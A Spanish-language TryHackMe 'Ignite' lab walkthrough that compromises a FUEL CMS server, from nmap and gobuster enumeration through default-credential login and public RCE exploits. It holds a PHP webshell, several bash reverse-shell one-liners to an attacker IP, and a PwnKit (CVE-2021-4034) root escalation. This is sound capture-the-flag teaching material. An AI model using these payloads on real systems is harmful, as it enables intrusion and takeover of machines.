




# Ignite - TryHackMe

## Reconocimiento

Vamos a realizar un escaneo de puertos con nmap para identificar los servicios que se están ejecutando en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.178.133

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 62
```

Veamos que el puerto 80 está abierto, lo que indica que hay un servidor web en ejecución. Ahora, vamos a realizar un escaneo más detallado del puerto 80 para identificar el servicio y la versión.

```bash
nmap -sCV -p80 10.129.178.133


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Vemos que el servidor web está ejecutando Apache httpd 2.4.18 en un sistema Ubuntu y que hay un archivo robots.txt que nos indica que hay una ruta "/fuel/"

Al entrar en http://10.129.178.133/ vemos un CMS llamado FUEL.



Veamos con whatweb que tecnologías está utilizando el sitio web.

```bash
whatweb 'http://10.129.178.133'
http://10.129.178.133 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.178.133], JQuery[1.7.1], Script, Title[Welcome to FUEL CMS]
```

Vamos a enumerar los directorios del sitio web con gobuster para ver si encontramos algo interesante.

```bash
gobuster dir -u http://10.129.178.133 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 10701

/home                 (Status: 200) [Size: 16599]
/assets               (Status: 301) [Size: 317] [--> http://10.129.178.133/assets/]
/index                (Status: 200) [Size: 16599]
/0                    (Status: 200) [Size: 16599]
/fuel                 (Status: 301) [Size: 315] [--> http://10.129.178.133/fuel/]
/offline              (Status: 200) [Size: 70]
```

Vemos que hay un directorio "/fuel" que nos redirige a http://10.129.178.133/fuel/login/5a6e566c6243396b59584e6f596d3968636d513d y tenemos un login de FUEL CMS.



Probamos una inyección SQL en el campo de usuario poniendo una comilla simple (') y no pasa nada, de todas formas, usamos sqlmap para ver si podemos encontrar alguna vulnerabilidad de inyección SQL.

```bash
sqlmap -u "http://10.129.178.133/fuel/login/5a6e566c6243396b59584e6f596d3968636d513d" --dbs --batch --forms
```

Pero sqlmap no encuentra ninguna vulnerabilidad de inyección SQL.

Al leer la pagina de inicio nos encontramos este mensaje:



Y nos deja iniciar sesión con el usuario "admin" y la contraseña "admin". 

Tenemos un dashboard con los siguientes elementos:



El unico usuario que existe es "admin" 

## Explotación

Usaremos el exploit de FUEL CMS 1.4 - Remote Code Execution (RCE) para obtener una shell en la máquina objetivo.

```bash
searchsploit -m php/webapps/50477.py
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)

python3 50477.py -u http://10.129.178.133
[+]Connecting...
Enter Command $
system
```

Vamos a entablar una sesión de reverse shell con netcat. Primero, en nuestra máquina atacante, ejecutamos:

```bash
nc -lvnp 443

```

Y en la máquina objetivo:

```bash
bash -i >& /dev/tcp/192.168.154.96/443 0>&1
```

Pero no funciona, así que vamos a crear un archivo PHP y subirlo al servidor.

```php
<?php
  system($_GET['cmd']);
?>
```

```bash
echo "<?php system(\$_GET['cmd']); ?>" > cmd.php
```

Tampoco, vamos a probar un script diferente:

```bash
searchsploit -m php/webapps/49487.rb
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (2)

ruby 49487.rb http://10.129.178.133 whoami
www-data

ruby 49487.rb http://10.129.178.133 bash -c 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1'
```

Tampoco funciona, vamos a subir un asset de PHP para obtener una shell. Creamos un archivo llamado "shell.sh" con el siguiente contenido:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.154.96/443 0>&1
```

No nos deja subir archivos .sh, así que vamos a crear un archivo PHP con el siguiente contenido:

```php
<?php
  system(bash -c 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1');
?>
```

Tampoco nos deja subir archivos .php, así que vamos a crear un archivo con extensión .jpg pero con contenido PHP, sin embargo, hace una validación del contenido del archivo y no nos deja subirlo.

Vamos a cambiar de exploit a este: https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE

```bash
python3 console.py -t 10.129.175.113
CVE-2018-16763-FuelCMS-1.4.1-RCE - by Remi GASCOU (Podalirius)

[+] Shell was uploaded in http://10.129.175.113/3f518f9aa9694a0ba41ba50ea33345b6.php
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[webshell]> bash -c 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1'
```

Nos entablamos una sesión de reverse shell con netcat en nuestra máquina atacante:

```bash
www-data@ubuntu:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalada de privilegios

Hagamos un tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

```bash
www-data@ubuntu:/home/www-data$ ls
flag.txt
```

Vemos que dentro del directorio /home/www-data hay un archivo llamado flag.txt, esta es la flag de usuario.

Veamos si hay archivos SUID en el sistema que nos puedan ayudar a escalar privilegios.

```bash
find / -perm -4000 2>/dev/null

/usr/bin/pkexec
```

```bash
uname -a
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

Tras usar lse.sh (Linux Smart Enumeration) no encontramos gran cosa, por lo que vamos a explotar la vulnerabilidad de pkexec CVE-2021-4034 para escalar privilegios a root: https://github.com/ly4k/PwnKit

Copiamos el código de PwnKit.c y con nano lo pegamos en un archivo llamado PwnKit.c, luego lo compilamos y ejecutamos:

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit 
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
```

Y con esto obtenemos la flag de root.

